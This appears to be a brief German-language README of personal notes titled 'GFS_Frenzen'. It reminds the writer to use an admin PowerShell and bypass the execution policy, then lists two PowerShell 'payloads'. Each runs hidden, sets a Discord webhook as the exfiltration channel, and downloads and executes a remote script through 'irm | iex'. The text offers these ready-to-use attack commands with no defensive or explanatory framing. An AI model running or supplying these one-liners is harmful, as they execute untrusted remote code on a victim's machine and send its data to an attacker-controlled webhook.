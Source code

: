 # GFS_Frenzen
Notizen
+  Nicht vergessen (-ExecutionPolicy ByPass)
+  Admin-Powershell
+  Payloads:

powershell -w h -ep bypass $dc='https://discord.com/api/webhooks/1312768108989124638/q1m2IL5i33PVVxzn8iWfraHO7FlG9duVntfkpdHlJG1VY5PXGFbAekcn9pmnBww4_KId';irm https://jakoby.lol/hgw | iex
powershell -w h -NoP -Ep Bypass $dc='https://discord.com/api/webhooks/1312768108989124638/q1m2IL5i33PVVxzn8iWfraHO7FlG9duVntfkpdHlJG1VY5PXGFbAekcn9pmnBww4_KId';irm jakoby.lol/9nb | iex


